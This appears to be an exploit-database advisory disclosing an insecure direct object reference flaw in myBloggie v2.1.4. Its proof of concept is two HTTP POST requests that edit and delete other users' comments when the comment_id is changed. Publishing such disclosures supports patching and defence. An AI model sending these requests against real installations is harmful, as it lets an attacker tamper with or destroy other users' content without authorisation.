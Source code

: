 # Exploit Title: myBloggie v2.1.4 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/mybloggie/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHP News System
## Version: v2.1.4
## Exploit Description:
## myBloggie v2.1.4 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to update and delete comment that owned by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------

```
POST /index.php?mode=editcom&post_id=2&comment_id=2(CHANGE HERE) HTTP/1.1
...

commentsubject=comment_from_user2&commenttext=user2+i+am+user1&commentname=user2&commentemail=user2%40test.com&commenthome=&submit=Submit&post_id=2&comment_id=
```

```
POST /index.php?mode=delcom HTTP/1.1
...

post_id=2&comment_id=2(CHANGE HERE)&confirm=yes
```